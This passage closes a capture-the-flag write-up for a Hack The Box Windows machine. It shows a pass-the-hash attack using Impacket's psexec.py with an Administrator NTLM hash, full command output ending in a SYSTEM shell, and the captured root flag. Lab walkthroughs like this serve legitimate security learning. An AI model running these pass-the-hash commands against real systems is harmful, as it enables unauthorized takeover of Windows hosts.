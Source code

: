### Getting a shell

The blog at [https://en.hackndo.com/pass-the-hash/](https://en.hackndo.com/pass-the-hash/) has a nice write-up on how and why pass-the-hash attacks work.  I used the `psexec.py` tool from Impacket's examples, though there are many tools for doing this attack against Windows.  

```text
zweilos@kalimaa:~/impacket/examples$ sudo python3 psexec.py -hashes :d9485863c1e9e05851aa40cbb4ab9dff Administrator@10.10.10.175
Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.175.....
[*] Found writable share ADMIN$
[*] Uploading file useqULkm.exe
[*] Opening SVCManager on 10.10.10.175.....
[*] Creating service hsLI on 10.10.10.175.....
[*] Starting service hsLI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Not only did this tool log me in, but it also elevated my privilege to `nt authority\system`!

### Root.txt

The final thing to do after gaining full control over this machine was to get my proof. 

```text
C:\Windows\system32>cat C:\users\administrator\desktop\root.txt

f3ee04965c68257382e31502cc5e881f
```

Thanks to [egotisticalSW](https://app.hackthebox.eu/users/94858) for creating this fun and easy Windows machine.  It offered a few chances to learn some new things while giving the opportunity to brush up on Windows enumeration skills.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

